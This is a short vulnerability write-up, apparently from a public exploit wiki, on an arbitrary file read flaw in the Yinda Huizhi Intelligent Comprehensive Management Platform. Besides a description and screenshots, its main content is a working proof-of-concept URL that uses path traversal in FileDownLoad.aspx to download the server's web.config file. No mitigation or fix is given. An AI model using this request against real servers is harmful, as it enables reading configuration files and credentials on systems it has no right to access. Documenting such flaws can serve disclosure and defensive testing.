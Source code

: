 # Yinda Huizhi Intelligent Comprehensive Management Platform FileDownLoad.aspx Any file reading vulnerability

## Vulnerability Description

Yinda Huizhi Intelligent Comprehensive Management Platform FileDownLoad.aspx There is a vulnerability to read any file in the server. Through the vulnerability attacker, any file in the server can be downloaded.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Yinda Huizhi Intelligent Comprehensive Management Platform </span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627914977251-450973a6-e847-454b-817b-efa35fdc4aed-20220313134159838.png)

Verify POC

```plain
http://xxx.xxx.xxx.xxx/Module/FileManagement/FileDownLoad.aspx?filePath=../../web.config
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627915116676-c0c892b3-14d0-4b50-a97b-cbc0cd8d4dc9.png)